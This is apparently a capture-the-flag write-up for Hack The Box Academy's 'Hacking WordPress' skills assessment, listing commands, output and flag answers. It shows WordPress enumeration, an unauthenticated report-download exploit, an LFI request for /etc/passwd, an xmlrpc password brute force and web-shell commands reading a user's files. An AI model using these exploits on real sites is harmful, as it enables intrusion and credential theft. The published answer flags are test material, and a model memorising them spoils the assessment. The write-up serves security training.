


# [Hacking WordPress](https://academy.hackthebox.com/module/details/17)

## Skills Assessment

You have been contracted to perform an external penetration test against the company `INLANEFREIGHT` that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

Note: You need to have a knowledge about how in Linux DNS mapping is done when the name server is missing.

### Questions

#### Question #01

**Question**

Identify the WordPress version number.

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-d8xmbg3odg]─[~]
└──╼ [★]$ whatweb http://10.129.236.205

http://10.129.236.205 [200 OK] Apache[2.4.29], Bootstrap, Country[RESERVED][ZZ], Email[info@inlanefreight.loca,info@inlanefreight.local], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.236.205], Script, Title[Inlane Freight]
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-d8xmbg3odg]─[~]
└──╼ [★]$ wpscan --url http://10.129.236.205

[SNIP]

Scan Aborted: The remote website is up, but does not seem to be running WordPress. ❌
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-d8xmbg3odg]─[~]
└──╼ [★]$ python3 ReconSpider.py http://10.129.236.205

[SNIP]

2025-05-23 09:59:36 [scrapy.core.engine] INFO: Spider closed (finished)

┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ cat results.json 

[SNIP]

"links": [
        "http://10.129.236.205/index.html",
        "http://10.129.236.205/contact.html#subscribe",
        "http://10.129.236.205/gallery.html#gal1",
        "http://blog.inlanefreight.local",
        "http://10.129.236.205/contact.html",
        "http://10.129.236.205/error.html#subscribe",
        "http://10.129.236.205/services.html#home",
        "http://10.129.236.205/error.html#home",
        "http://10.129.236.205/gallery.html",
        "http://10.129.236.205/gallery.html#subscribe",
        "http://10.129.236.205/gallery.html#gallery",
        "http://10.129.236.205/gallery.html#gal3",
        "http://w3layouts.com/",
        "http://10.129.236.205/index.html#home",
        "http://10.129.236.205/gallery.html#gal2",
        "http://10.129.236.205#home",
        "http://10.129.236.205/error.html",
        "http://10.129.236.205/about.html",
        "http://10.129.236.205/services.html",
        "http://10.129.236.205",
        "http://10.129.236.205/about.html#subscribe",
        "http://10.129.236.205/gallery.html#home",
        "http://10.129.236.205/services.html#subscribe",
        "http://10.129.236.205/about.html#home",
        "http://10.129.236.205/contact.html#home"
    ],

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ echo -e '10.129.236.205\tblog.inlanefreight.local' | sudo tee -a /etc/hosts

10.129.236.205	blog.inlanefreight.local
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ whatweb blog.inlanefreight.local

http://blog.inlanefreight.local [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.236.205], JQuery[1.12.4], MetaGenerator[WordPress 5.1.6], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Inlanefreight Employee Portal], UncommonHeaders[link,x-tec-api-version,x-tec-api-root,x-tec-api-origin], WordPress[5.1.6]
```

**Answer**

```
5.1.6
```

#### Question #02

**Question**

Identify the WordPress theme in use.

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ wpscan --url http://blog.inlanefreight.local --enumerate --api-token=$API_WPSCAN | tee wpscan_enumeration.txt

[SNIP]

[+] WordPress theme in use: twentynineteen
 | Location: http://blog.inlanefreight.local/wp-content/themes/twentynineteen/
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://blog.inlanefreight.local/wp-content/themes/twentynineteen/readme.txt

[SNIP]
```

**Answer**

```
twentynineteen
```

#### Question #03

**Question**

Submit the contents of the flag file in the directory with directory listing enabled.

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ cat wpscan_enumeration.txt

[SNIP]

[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/ | html2text

****** Index of /wp-content/uploads ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[DIR]]       2020/            2020-09-08 13:30    -  
[[DIR]]       2024/            2024-01-19 05:19    -  
[[DIR]]       2025/            2025-05-23 11:03    -  
[[DIR]]       siteeditor/      2020-09-08 13:49    -  
[[TXT]]       upload_flag.txt  2020-09-08 13:56   32  
===========================================================================
     Apache/2.4.29 (Ubuntu) Server at blog.inlanefreight.local Port 80

┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/upload_flag.txt

HTB{d1sabl3_d1r3ct0ry_l1st1ng!}
```

**Answer**

```
HTB{d1sabl3_d1r3ct0ry_l1st1ng!}
```

#### Question #04

**Question**

Identify the only non-admin WordPress user. (Format: `<first-name> <last-name>`)

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ cat wpscan_enumeration.txt

[SNIP]

[i] User(s) Identified:

[+] erika
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Display Name (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Display Name (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Charlie Wiggins
 | Found By: Author Id Brute Forcing - Display Name (Aggressive Detection)

[SNIP]
```

**Answer**

```
Charlie Wiggins
```

#### Question #05

**Question**

Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-y7je3unjjz]─[~]
└──╼ [★]$ cat wpscan_enumeration.txt

[SNIP]

[+] email-subscribers
 | Location: http://blog.inlanefreight.local/wp-content/plugins/email-subscribers/
 | Last Updated: 2025-05-14T10:04:00.000Z
 | [!] The version is out of date, the latest version is 5.8.3
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 30 vulnerabilities identified:
 |
 | [!] Title: Email Subscribers & Newsletters < 4.2.3 - Multiple Issues
 |     Fixed in: 4.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/a0764617-6142-4ef7-94f9-1fb923e81e94
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19985
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19984
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19982
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19981
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19980
 |      - https://www.wordfence.com/blog/2019/11/multiple-vulnerabilities-patched-in-email-subscribers-newsletters-plugin/
 |      - https://cxsecurity.com/issue/WLB-2020080034

[SNIP]
```



```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-y7je3unjjz]─[~]
└──╼ [★]$ searchsploit unauthenticated file download

-----------------------------------------------------------------------------------
 Exploit Title                                                                         |  Path
-----------------------------------------------------------------------------------
WordPress Plugin Email Subscribers & Newsletters 4.2.2 - Unauthenticated File Download | php/webapps/48698.txt
-----------------------------------------------------------------------------------
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ cat /usr/share/exploitdb/exploits/php/webapps/48698.txt

# Exploit Title: WordPress Plugin Email Subscribers & Newsletters 4.2.2 - Unauthenticated File Download
# Google Dork: "Stable tag" inurl:wp-content/plugins/email-subscribers/readme.txt
# Date: 2020-07-20
# Exploit Author: KBA@SOGETI_ESEC
# Vendor Homepage: https://www.icegram.com/email-subscribers/
# Software Link: https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2
# Version: <= 4.2.2
# Tested on: Email Subscribers & Newsletters 4.2.2
# CVE : CVE-2019-19985

[SNIP]

curl [BASE_URL]'/wp-admin/admin.php?page=download_report&report=users&status=all'

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-y7je3unjjz]─[~]
└──╼ [★]$ curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'

"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
```

**Answer**

```
HTB{unauTh_d0wn10ad!}
```

#### Question #06

**Question**

What is the version number of the plugin vulnerable to an LFI?

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ cat wpscan_enumeration.txt | grep -i lfi -B15 -A15

[SNIP]

[+] site-editor
 | Location: http://blog.inlanefreight.local/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/site-editor/readme.txt

[SNIP]
```

**Answer**

```
1.1.1
```

#### Question #07

**Question**

Use the LFI to identify a system user whose name starts with the letter "f".

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ searchsploit site editor 1.1.1

---------------------------------------------------------- ------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ------------------------

WordPress Plugin Site Editor 1.1.1 - Local File Inclusion | php/webapps/44340.txt
---------------------------------------------------------- ------------------------
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ cat /usr/share/exploitdb/exploits/php/webapps/44340.txt 

[SNIP]

By providing a specially crafted path to the vulnerable parameter, a remote attacker can retrieve the contents of sensitive files on the local system.

** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

[SNIP]

frank.mclane:x:1002:1002::/home/frank.mclane:/bin/bash
```

**Answer**

```
frank.mclane
```

#### Question #08

**Question**

Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory.

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ wpscan --url http://blog.inlanefreight.local --password-attack xmlrpc --usernames erika --passwords /usr/share/wordlists/rockyou.txt -t 100

[SNIP]

[+] Performing password attack on Xmlrpc against 1 user/s

[!] Valid Combinations Found:
 | Username: erika, Password: 010203

[SNIP]
```



```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ curl http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php/?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ curl http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php/?cmd=ls+/home/erika/

d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

```
┌─[eu-academy-1]─[10.10.14.99]─[htb-ac-1461567@htb-u3lntnifkf]─[~]
└──╼ [★]$ curl http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php/?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt

HTB{w0rdPr355_4SS3ssm3n7}
```

**Answer**

```
HTB{w0rdPr355_4SS3ssm3n7}
```

---
---
